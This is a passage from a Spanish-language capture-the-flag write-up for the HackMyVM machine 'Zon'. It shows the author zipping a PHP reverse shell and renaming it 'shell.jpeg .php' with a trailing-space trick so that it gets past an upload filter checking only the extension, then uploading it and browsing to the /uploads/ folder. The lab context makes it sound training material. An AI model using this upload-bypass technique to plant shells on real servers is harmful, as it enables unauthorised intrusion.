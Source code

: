 Bien, una vez hayamos cambiado esas dos líneas podemos proseguir:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Zon/exploits]
└─# zip -r shell.zip php-reverse-shell.php     
  adding: php-reverse-shell.php (deflated 59%)
```

Tratemos ahora de subir el **`ZIP`**:

![ZIPDeleted](/assets/img/imgs/zon/ZIPDeleted.png)

Uh, eso es un problema. No pasa nada, me di cuenta que si cambiamos la extensión a **`JPEG`** (tal y como pone en el mensaje) nos lo dejará subir. Eso está bastante bien ya que no comprueba si los ficheros son realmente **`JPEG`** u otro tipo de fichero.

Para poder intentar saltarnos esta verificación (la del nombre) podemos intentar hacer el viejo truco del espacio:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Zon/exploits]
└─# mv php-reverse-shell.php "shell.jpeg .php"

┌──(root㉿kali)-[~/…/VMs/HMV/Zon/exploits]
└─# zip -r shell.zip shell.jpeg\ .php 
  adding: shell.jpeg .php (deflated 59%)
```

Y ahora, si tratamos de subir el fichero, esto aparece:

![ZIPUploaded](/assets/img/imgs/zon/ZIPUploaded.png)

¡Perfecto! Una vez subido el fichero **`ZIP`** podemos visitar la ruta antes encontrada (**`/uploads/`{: .filepath }**):

![Uploads](/assets/img/imgs/zon/uploads.png)
